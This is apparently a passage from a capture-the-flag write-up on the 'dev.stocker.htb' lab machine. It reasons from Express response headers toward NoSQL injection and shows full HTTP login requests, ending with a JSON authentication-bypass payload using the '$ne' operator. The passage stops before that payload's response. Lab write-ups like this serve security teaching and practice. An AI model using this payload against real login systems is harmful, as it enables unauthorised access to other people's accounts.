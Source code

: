 Common SQL injection payloads for authentication bypass does not provide any results here. SQLmap can also be used for detecting SQL injection if at all it is vulnerable to this.

However, the server side response headers reveal that we have an `Express` application here.

Hence, it would be more useful if we test for `NoSQLi` instead of traditional SQL injection.

```bash

POST /login HTTP/1.1
Host: dev.stocker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 29
Origin: http://dev.stocker.htb
Connection: close
Referer: http://dev.stocker.htb/login
Cookie: connect.sid=s%3AbJDgribzFlsxX6bWGc2SXpNYUW4JptWX.mZxgaHsLBo3x1QVe%2BJ0dWssycRJ6jSJkOelyyA2%2Fd9A
Upgrade-Insecure-Requests: 1

username=admin&password=admin

```

```html

HTTP/1.1 302 Found
Server: nginx/1.18.0 (Ubuntu)
Date: Sat, 21 Jan 2023 07:53:56 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 92
Connection: close
X-Powered-By: Express
Location: /login?error=login-error
Vary: Accept

<p>Found. Redirecting to <a href="/login?error=login-error">/login?error=login-error</a></p>

```

A normal login request with `admin:admin` as credentials responds with a `302` status code and redirects us back to `/login` with the `error` parameter. Well, this is expected as the credentials are not right.

```bash

POST /login HTTP/1.1
Host: dev.stocker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 49
Origin: http://dev.stocker.htb
Connection: close
Referer: http://dev.stocker.htb/login
Cookie: connect.sid=s%3AbJDgribzFlsxX6bWGc2SXpNYUW4JptWX.mZxgaHsLBo3x1QVe%2BJ0dWssycRJ6jSJkOelyyA2%2Fd9A
Upgrade-Insecure-Requests: 1

{"username":{"$ne": "x"},"password":{"$ne": "y"}}

```